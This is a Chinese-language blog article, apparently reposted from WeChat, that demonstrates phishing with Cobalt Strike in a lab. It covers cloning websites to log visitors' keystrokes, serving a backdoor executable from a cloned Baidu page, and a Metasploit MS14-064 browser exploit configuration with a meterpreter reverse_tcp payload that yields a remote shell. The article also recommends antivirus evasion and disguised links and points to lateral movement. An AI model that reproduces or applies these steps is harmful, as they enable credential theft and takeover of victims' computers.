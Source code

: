 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/7zIWIDaQRQmFp-YKSGnMiA)

**0x01 前言**

网络钓鱼是社会工程学攻击方式之一，主要是通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段！  

网络钓鱼攻击是个人和公司在保护其信息安全方面面临的最常见的安全挑战之一。无论是获取密码、信用卡还是其他敏感信息，黑客都在使用电子邮件、社交媒体、电话和任何可能的通信方式窃取有价值的数据。

网络钓鱼攻击的兴起对所有组织都构成了重大威胁。重要的是，如果他们要保护自己的信息，所有组织都应该知道如何发现一些最常见的网络钓鱼骗局。同样还要熟悉攻击者用来实施这些骗局的一些最常见的技术类型。

这篇主要演示如何克隆和利用漏洞等方式进行钓鱼，并控制对方！！

**0x02 环境介绍**

**黑客（攻击者）：  
**

IP：192.168.1.9

系统：kali.2020.4

**VPS 服务器：**

目前演示是用 kali 来架设做 VPS 公网服务器的！道理意义一样！

**办公电脑：**

系统：windwos7 和 windwos xp

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcPjhOzyqIkzyCuCL5HIaPKlOjxyEWYPUkmz6pxkpxNwnQ1BIWKDL57g/640?wx_fmt=png)

目前 kali 上运行了 Cobalt strike ，攻击者在自己的公网 VPS 服务器上制作了后门页面钓鱼，通过各种方式办公电脑收到对方邮件或者各种手段发送的钓鱼链接，最终黑客控制办公电脑的过程！！

**0x03 钓鱼演示**

下面会演示到所有 CS 自带模块中的钓鱼攻击演示！！

**1、智能收集**

打开 System Profiler - 分析器功能…，选择克隆 www.baidu.com 页面做钓鱼…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcqicnpwF79QMAE9HkgkBqXnUeYmKI9bfiasP6HUicLJnHNgh0DPJZyfozQ/640?wx_fmt=png)  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLck6hes46GCxpzpVufpoxlNsLczkkjXibCSeWdRjKVyIclCQQ16J2Jeug/640?wx_fmt=png)  

攻击对象访问：http://192.168.1.9/baidu

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLc2krfiaJlffqVdwnicCAnmCruhiaiaEfsXajcvxOhEcUciaQobQayRWeSXLQ/640?wx_fmt=png)  

当通过各种形式… 将 192.168.1.9/baidu 链接发送给对方，让对方点击后… 跳转到了 baidu 页面…  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcxJOOXcGhOBjvhwvdIHzN3vP3dHuibjWPfCHcVwewD441dQFyic1xzVuw/640?wx_fmt=png)

可看到选择应用信息后，钓到了客户用的系统以及浏览器版本型号… 这里别小看两个信息，思路是该模块可以修改，利用溢出代码等形式提权或者获得更多的信息收集… 下面我会写一些演示！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcRSuOyqxz9VeqaRicich5pLcCbticyicEkjxicV4xxQVDRhqHPPIGwaxZveQ/640?wx_fmt=png)

**2、克隆模块和克隆网站进行键盘记录攻击**

打开 Web Drive-by–Clone Site 克隆网站模块…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcxibSatT6jlaoE85qhPSxcQMm3THobTO7jvaLnZHoqYPtuaWSLxR4mbQ/640?wx_fmt=png)

这里克隆网站可以是 http 和 https 的 URL… 克隆到 192.168.2.153:801 链接上！！勾选 Log Keystrokes on cloned site 后，记录键盘操作！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcYnNNvuP6kQvKiaTnyboNQrBQ3T0ELgnHkJGyzfs1FPu0D0gf9sQbgzQ/640?wx_fmt=png)

打开 Web Log 功能查看被攻击方登录页面的操作情况！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcN5s3wfV1adcLrfKrPF3j3SichBF08hqbtTZUDj3XRzwvJUqxQ8Q1KEA/640?wx_fmt=png)

可看到访问 192.168.2.153:801 页面输入了用户名密码…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLclugBmmUdnM1TH26PZticWeiblhFVXydrXC1lMY3zkPibWyAmXeFicmQDGw/640?wx_fmt=png)

可看到记录了对方输入键盘的信息！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcUWotkhuu1sBJ8v56jZoA2DWEqwxbNpiawS8QHcz7QBdrNiamCSfUbzcg/640?wx_fmt=png)

**3、克隆网站下载执行木马**

打开 Host File 克隆一个页面并提供一个后门文件…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcpYvDpmegIBj2IKicNCLxlztQgDBflIibUGxz3eG76hRWFgiaU9TPZwWlA/640?wx_fmt=png)

file：选择 CS 生成的 shell，或者 MSF 也行！确定 URL 下载的地址端口链接等情况！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLclngGbUfvoL6essVb6sacelVl9QP90t7whibEjW5xVG7iaH6F2iaNVHwuw/640?wx_fmt=png)

生成 http://192.168.2.153:801/upload.exe 恶意链接…

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcREGDPhvTVfYHtZIlgUk418g9IstWNPCibPiaJwaelzO6hln4EibpiaWicYg/640?wx_fmt=png)

然后回到方法 2 中！！在打开 Clone Site 联动克隆模块，将克隆 baidu 页面，Attack 攻击选择恶意链接页面进行钓鱼！

意思就是对方访问 http://192.168.2.153:801/dayu 页面后会直接下载 attack 恶意链接后门文件，页面正常跳转到百度页面！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcmdPh6n9nj3R7FJMX6hJDE4aUvAQoBlkWDhRpjmODWib4AE1H8eYjppw/640?wx_fmt=png)

可看到 google 访问该页面下载了 upload.exe 生成的 CS 后门文件… 这里 google 带有 web 安全下载防御功能，IE 高版本也会有提示，这种思路是两个模块配合完成的，其中可以修改图标、文件名、弄个免杀、换个欺骗链接，很好钓鱼！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcicIo2kfXH4MDXepUqnLbo8ibLzajMCZicSE9SfNMU8Qcuvpz7UrfRayAQ/640?wx_fmt=png)

**4、****Metasploit 溢出代码与 Cobalt Strik 配合钓鱼**

本次演示的是思路，拿的是一个针对 XP 或者以下系统，利用 MS14_064 利用 IE 执行远控木马… 记住是思路！！

这里很简单，MSF 执行 exploit 即可获得恶意链接：http://192.168.2.153:6666/Sixcra！

```
use exploit/windows/browser/ms14_064_ole_code_execution
set srvhost 192.168.2.153
set SRVPORT 6666
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.2.153
exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcPGiccLlibUIdswdffM8jCcxwH8bxmdslicbG7rKygJwibOWgGkTbMMTFNw/640?wx_fmt=png)

很简单，利用和方法 3 一样，打开克隆网站模块，放入 Attack 即可！！这里就不勾选键盘记录了，因为直接能控制对方了！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLccvyxOC6RLMc1CqRicouX0ALzT8RicbTiarkgm8VkPiac97OygKnodvbQPg/640?wx_fmt=png)

生成 URL：http://192.168.2.153:80/baidu

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcy2Q1Tt3dRib7O2oFmTUFZwkLKXZbyGkHBghkgeLNaA0YRMxN8xhobKg/640?wx_fmt=png)

可看到当对方访问做好的 http://192.168.2.153:80/baidu 钓鱼页面后，直接跳转到了百度… 但是通过溢出漏洞在攻击端获得了对方的控制 shell…  

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLczzB02rx5VCN9WAOVcPbCfgxDsBl9uDOFF50F63dOSSy4IiaRqsmsxfg/640?wx_fmt=png)

通过控制，继续横向渗透即可！！

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOf1BEGicRSpVMRDuaANDvrLcBNGgJPj63qjRGAZF7tOPgZ2mID48O0ibRvMoQLFDYRibmV5FibpsibS1uQ/640?wx_fmt=png)

**0x05 总结**

这里有四种方法，总结下思路，就是各种模块之间的配合进行简单的钓鱼，知道这些思路后，还可以和别的钓鱼工具配合，或者是别的方法融合！  

这里提醒下，如果在克隆模块克隆的是 HTTPS 的页面，需要在攻击方加载 SSL 哦，不然没法记录或者执行！！

今天基础牢固就到这里，虽然基础，但是必须牢记于心。

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

一如既往的学习，一如既往的整理，一如即往的分享。感谢支持![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)  

“如侵权请私聊公众号删文”

以上工具与资料，之后会上传并分享到知识星球，私聊公众号领取 100 元优惠券，限 30 人。感谢各位大佬关注![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icl7QVywL8iaGT0QBGpOwgD1IwN0z9JicTRvzvnsJicNRr2gRvJib6jKojzC5CJJsFPkEbZQJ999HrH5Gw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5icldmVNyQI1jUlUr1pW87a2lice3gVfEgZPQBUWjfu4sm1YD20YoiaichXtNqjQDooV46ib3HDXT7FqEQQ/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/p5qELRDe5iclvOA3G13dFJ8Brkx0d1Bdnu2axZTSyFzdQS16dyiaA5kNHtlDX1bQfR0Su41IicWsciaLEOm1XKiczeg/640?wx_fmt=png)